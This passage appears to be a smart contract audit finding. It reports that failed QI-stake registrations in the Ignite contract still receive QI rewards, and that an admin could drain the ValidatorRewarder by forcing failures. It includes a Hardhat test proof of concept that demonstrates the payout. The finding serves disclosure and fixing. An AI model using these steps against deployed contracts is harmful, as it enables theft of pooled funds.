 This is fine for registrations made with `AVAX` stake, since the reward amount is never updated from `0`; however, for those made with pre-validated QI stake, the call to `ValidatorRewarder::claimRewards` is executed regardless, returning the original stake in QI plus QI rewards for the full duration.

Furthermore, this behavior could be abused by the Zeeve admin to drain `QI` tokens from the `ValidatorRewarder` contract. Assuming interactions are made directly with the deployed contracts to bypass frontend checks, a faulty BLS proof can be provided to `StakingContract::registerNode` – this BLS proof is validated by an off-chain service when the `NewRegistration` event is detected, and `Ignite::releaseLockedTokens` will be called if it is invalid.

While Zeeve is somewhat of a trusted entity, they could very easily and relatively inconspicuously stake with burner user addresses, forcing the failure of BLS proof validation to drain the `ValidatorRewarder` contract due to the behavior of this off-chain logic in conjunction with the incorrect handling of `QI` rewards for failed registrations.

**Impact:** `QI` rewards will be paid to users of failed registrations made via `Ignite::registerWithPrevalidatedQiStake`. If abused by the Zeeve admin, then entire `ValidatorRewarder` contract balance could be drained.

**Proof of Concept:** The following test can be added to `Ignite.test.js` under `describe("Superpools")`:

```javascript
it("earns qi rewards for failed registrations", async function () {
  await validatorRewarder.setTargetApr(1000);
  await ignite.setValidatorRewarder(validatorRewarder.address);
  await grantRole("ROLE_RELEASE_LOCKED_TOKENS", admin.address);

  // AVAX $20, QI $0.01
  const qiStake = hre.ethers.utils.parseEther("200").mul(2_000);
  const qiFee = hre.ethers.utils.parseEther("1").mul(2_000);

  // approve Ignite to spend pre-validated QI (bypassing StakingContract)
  await qi.approve(ignite.address, qiStake.add(qiFee));
  await ignite.registerWithPrevalidatedQiStake(
    admin.address,
    "NodeID-Superpools1",
    "0x" + blsPoP.toString("hex"),
    86400 * 28,
    qiStake.add(qiFee),
  );

  // registration of node fails
  await ignite.releaseLockedTokens("NodeID-Superpools1", true);

  const balanceBefore = await qi.balanceOf(admin.address);
  await ignite.connect(admin).redeemAfterExpiry("NodeID-Superpools1");

  const balanceAfter = await qi.balanceOf(admin.address);

  // stake + rewards are returned to the user
  expect(Number(balanceAfter.sub(balanceBefore))).to.be.greaterThan(Number(qiStake));
});
```
